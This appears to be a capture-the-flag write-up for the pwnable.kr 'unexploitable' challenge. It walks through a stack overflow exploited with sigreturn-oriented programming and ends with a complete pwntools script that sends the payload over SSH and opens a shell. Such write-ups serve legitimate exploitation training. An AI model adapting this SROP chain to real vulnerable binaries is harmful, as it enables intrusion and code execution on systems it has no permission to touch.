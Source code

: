 
# unexploitable

First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?

![[checksec.png]]

Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:

![[syscall_gadget.png]]

Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:

![[ret_override.png]]

![[finding_offset.png]]

So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 
![[memory_map.png]]
and then:
![[finding_string.png]]
And i found this string in our binary:
![[found_string.png]]

So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

![[win.png]]